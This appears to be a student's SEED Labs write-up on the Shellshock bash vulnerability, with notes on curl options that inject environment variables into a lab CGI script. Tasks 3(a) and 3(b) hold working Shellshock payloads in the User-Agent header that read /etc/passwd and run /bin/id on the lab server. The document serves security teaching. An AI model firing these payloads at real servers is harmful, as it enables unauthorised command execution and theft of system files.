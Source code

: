 ### Task 2(b)(d): The ```-H``` option
Using the ```curl -H "AAAAAA: BBBBBB" -v www.seedlab-shellshock.com/cgi-bin/getenv.cgi``` it is possible to create a new environment variable that is label in this case ```AAAAAA: BBBBBB```.

### Task 2(b)(e): Developing an Initial Attack Strategy
After completing tasks 2.2.1-2.2.4, please describe which options of curl could be used to inject data into the environment variables of the target CGI program.
\
At this point, I am thinking that the three of the options ( ```-A```, ```-e```, and ```-H```) are possible  options for injecting data into the environment variables of target CGI program.


# Task 3: Launching the Shellshock Attack
The attack does not depend on what is in the CGI program, as it targets the bash program, which is invoked before the actual CGI script is executed. You should launch your attack targeting the CGI script located at the following URL: http://www.seedlab-shellshock.com/cgi-bin/vul.cgi. Your ultimate objective in each task is to get the server to run an arbitrary command of your choosing.
\
For each objective, please report:

1. A summary of your approach, with relevant command inputs/outputs
2. The curl option you used
3. The result (i.e., was your attack successful? Why or why not? Other observations?)


Note that for each of the following sub-tasks you only need to use one of the ```curl``` options in your attack, but in total, you need to use three different ```curl``` options.

## Task 3(a): Shellshock & Reading A File
Get the server to send back the content of the ```/etc/passwd``` file


The approach is to use User Agent to pass through ```/bin/cat``` to the ```/etc/passwd``` file.
\
The curl command is ```curl -A ' () { :; }; echo "Content-Type: text/plain"; echo ""; /bin/cat /etc/passwd' -v  http://www.seedlab-shellshock.com/cgi-bin/vul.cgi```.
\
My attempt was successful and this can be proven by using option ```-A``` to find the ```' () { :; }; echo "Content-Type: text/plain"; echo ""; /bin/cat /etc/passwd'```. After this the ```/etc/passwd``` file is returned to seed VM through ```/bin/cat```.


## Task 3(b): Shellshock & Process Info
Get the server to tell you its process’ user ID. You can use the /bin/id command to print out the ID information.
\
I was able to get the process' user ID through using the following curl command ```curl -A ' () { :; }; echo "Content-Type: text/plain"; echo ""; /bin/id' http://www.seedlab-shellshock.com/cgi-bin/vul.cgi```. This will return to the seed shell ```uid=33(www-data) gid=33(www-data) groups=33(www-data)```. I believe that with this information we will be able to alter the ownership or privileges and access information that isn't "ours".
